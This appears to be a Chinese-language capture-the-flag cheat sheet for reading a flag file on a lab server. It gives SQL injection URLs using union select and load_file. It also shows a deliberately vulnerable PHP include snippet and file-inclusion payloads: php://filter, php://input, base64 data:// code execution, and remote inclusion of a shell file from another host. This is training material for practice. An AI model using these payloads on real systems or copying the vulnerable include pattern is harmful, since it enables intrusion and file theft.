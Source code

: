 ## 常规漏洞 GET flag

### SQL injection
```
http://172.16.2.234:8011/inject.php?id=1' and 1#
http://172.16.2.234:8011/inject.php?id=1 and 1#
http://172.16.2.234:8011/inject.php?id=1 order by 5#
http://172.16.2.234:8011/inject.php?id=1 order by 3#
http://172.16.2.234:8011/inject.php?id=1 order by 4#

http://172.16.2.234:8011/inject.php?id=-1 union select null# 
http://172.16.2.234:8011/inject.php?id=-1 union select null,null# 
http://172.16.2.234:8011/inject.php?id=-1 union select null,null,null# 

http://172.16.2.234:8011/inject.php?id=-1 union select null,@@version,null#
http://172.16.2.234:8011/inject.php?id=-1 union select null,null,load_file('/flag.txt')#
```

### 文件包含

常见包含函数有：`include()、require()、include_once()、require_once()`
区别：

include是当代码执行到它的时候才加载文件,发生错误的时候只是给一个警告,然后继续往下执行
require是只要程序一执行就会立即调用文件,发生错误的时候会输出错误信息,并且终止脚本的运行
require一般是用于文件头包含类文件、数据库等等文件,include一般是用于包含html模版文件
`include_once()、require_once()`与(`include\require`)的功能相同,只是区别于当重复调用的时候，它只会调用一次。
```
<?php
include($_GET['filename']);    
?>
```

```
http://172.16.2.234:8011/include.php?filename=info.txt
http://172.16.2.234:8011/include.php?filename=file:///flag.txt
http://172.16.2.234:8011/include.php?filename=php://filter/convert.base64-encode/resource=/flag.txt
```
##### 下面的需要allow_url_include=On
```
//远程文件包含
http://172.16.2.234:8011/include.php?filename=[http|https|ftp|smb]://192.168.0.1/shell.txt //(需要allow_url_fopen=On并且 allow_url_include=On)

//php://input
http://172.16.2.234:8011/include.php?filename=php://input
POST: <?php echo file_get_contents("/flag.txt");?>

//data://
http://172.16.2.234:8011/include.php?filename=data://text/plain;base64,base64编码的php代码(不含结束标记?>)
echo '<?php echo file_get_contents("/flag.txt");'|base64
PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygiL2ZsYWcudHh0Iik7Cg==
http://172.16.2.234:8011/include.php?filename=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygiL2ZsYWcudHh0Iik7Cg==

```

